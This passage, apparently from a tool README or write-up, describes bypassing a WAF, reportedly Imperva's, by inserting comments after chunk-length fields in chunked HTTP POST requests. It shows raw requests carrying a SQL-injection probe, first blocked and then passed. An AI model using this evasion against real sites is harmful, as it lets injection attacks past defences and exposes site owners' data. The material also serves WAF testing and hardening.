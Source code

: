### Method

### Scramble chunked packets with annotations 

At this time, if you try to bypass the conventional chunked transmission method directly, Will be directly identified and blocked by WAF.      

Almost all WAFs that can identify a Transfer-Encoding packet, but some do not process the comment at the length identifier in the packet. As a result, if a comment is added to the packet, the WAF will not recognize the packet.    

Now we are testing regular block transfer packets on a website:   

```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1
d
9
&a=1	and	
3
2=2
0
```
The returned results are shown in the following figure   
![Capture](https://user-images.githubusercontent.com/25066959/70383201-da9f7380-1937-11ea-9330-00ec7f5e30a2.PNG)
You can see that our attack payload "and 2 = 2" was intercepted by Imperva's WAF.    
At this time, we add the block transmission packet with a comment.    
```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1;testsdasdsad
d
9;test
&a=1	and	
3;test44444
2=2
0
```
The returned results are shown in the following figure.    
![Capture](https://user-images.githubusercontent.com/25066959/70383265-b7c18f00-1938-11ea-9633-35eee3316363.PNG)
You can see that the firewall has stopped intercepting this payload.
